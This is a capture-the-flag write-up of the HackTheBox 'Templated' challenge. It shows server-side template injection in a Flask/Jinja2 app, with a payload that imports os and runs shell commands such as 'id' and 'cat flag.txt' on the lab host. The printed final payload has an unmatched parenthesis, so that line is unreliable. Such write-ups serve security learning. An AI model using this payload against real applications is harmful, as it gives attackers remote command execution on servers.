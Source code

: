 

# HackTheBox [LAB-challenge] (Web)
## CHALLENGE NAME : Templated

## Writeup by **`Arijit-Bhowmick`** aka **`sys41414141`**

![Challenge Details](Images/challenge_description.png)

### Challenge Description

`
Can you exploit this simple mistake?
`

## SOLUTION

Click on the `Start Instance` button to start the challenge.

The you are provided with an `web address`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](Images/homepage.png)


The webapp shows a message 
`# Site still under construction
Proudly powered by Flask/Jinja2`.

Here we can see that it says that it is made with `Flask/Jinja2`.

#
### Searching exploits  for  `Flask/Jinja2`:

I have started searching for exploits for **Flask/Jinja2**.
Then I came across 
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2

Here it says about the SSTI exploit.

#
### Test Exploit :

After modifying the provided url to `http://46.101.92.17:31311/{{41+41}}`

I have noticed that the returned result evaluates the value.

![test_exploit](Images/test_exploit_1.png)

#
Then I came across:
![exploit_info_gather](Images/exploit_info_gather.png)


#### Creating the exploit:

I have manipulated ``{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}``
step by step.

![root_id_info](Images/root_id_info.png)

![root_directory_content](Images/root_directory_content.png)


#### EXPLOIT Code:

```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
Format:

```
<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`

![exploit](Images/exploit.png)
